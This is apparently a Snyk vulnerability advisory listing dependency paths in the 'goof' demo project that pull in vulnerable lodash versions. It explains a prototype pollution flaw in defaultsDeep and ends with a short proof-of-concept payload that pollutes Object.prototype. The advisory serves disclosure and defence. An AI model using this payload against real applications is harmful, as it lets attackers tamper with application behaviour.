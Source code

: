 -   *Introduced through*: goof@1.0.1 › lodash@4.17.4
-   *Introduced through*: goof@1.0.1 › tap@11.1.5 › nyc@11.9.0 ›
    istanbul-lib-instrument@1.10.1 › babel-types@6.26.0 › lodash@4.17.10
-   *Introduced through*: goof@1.0.1 › tap@11.1.5 › nyc@11.9.0 ›
    istanbul-lib-instrument@1.10.1 › babel-generator@6.26.1 ›
    lodash@4.17.10
-   *Introduced through*: goof@1.0.1 › tap@11.1.5 › nyc@11.9.0 ›
    istanbul-lib-instrument@1.10.1 › babel-traverse@6.26.0 ›
    lodash@4.17.10
-   *Introduced through*: goof@1.0.1 › tap@11.1.5 › nyc@11.9.0 ›
    istanbul-lib-instrument@1.10.1 › babel-template@6.26.0 ›
    lodash@4.17.10
-   *Introduced through*: goof@1.0.1 › tap@11.1.5 › nyc@11.9.0 ›
    istanbul-lib-instrument@1.10.1 › babel-generator@6.26.1 ›
    babel-types@6.26.0 › lodash@4.17.10
-   *Introduced through*: goof@1.0.1 › tap@11.1.5 › nyc@11.9.0 ›
    istanbul-lib-instrument@1.10.1 › babel-traverse@6.26.0 ›
    babel-types@6.26.0 › lodash@4.17.10
-   *Introduced through*: goof@1.0.1 › tap@11.1.5 › nyc@11.9.0 ›
    istanbul-lib-instrument@1.10.1 › babel-template@6.26.0 ›
    babel-types@6.26.0 › lodash@4.17.10
-   *Introduced through*: goof@1.0.1 › tap@11.1.5 › nyc@11.9.0 ›
    istanbul-lib-instrument@1.10.1 › babel-template@6.26.0 ›
    babel-traverse@6.26.0 › lodash@4.17.10
-   *Introduced through*: goof@1.0.1 › tap@11.1.5 › nyc@11.9.0 ›
    istanbul-lib-instrument@1.10.1 › babel-template@6.26.0 ›
    babel-traverse@6.26.0 › babel-types@6.26.0 › lodash@4.17.10

* * * * *

Overview {#overview}
--------

[lodash](https://www.npmjs.com/package/lodash) is a modern JavaScript
utility library delivering modularity, performance, & extras.

Affected versions of this package are vulnerable to Prototype Pollution.
The function `defaultsDeep` could be tricked into adding or modifying
properties of `Object.prototype` using a `constructor` payload.

PoC by Snyk
-----------

    const mergeFn = require('lodash').defaultsDeep;
              const payload = '{"constructor": {"prototype": {"a0": true}}}'
              
              function check() {
                  mergeFn({}, JSON.parse(payload));
                  if (({})[`a0`] === true) {
                      console.log(`Vulnerable to Prototype Pollution via ${payload}`);
                  }
                }
              
              check();
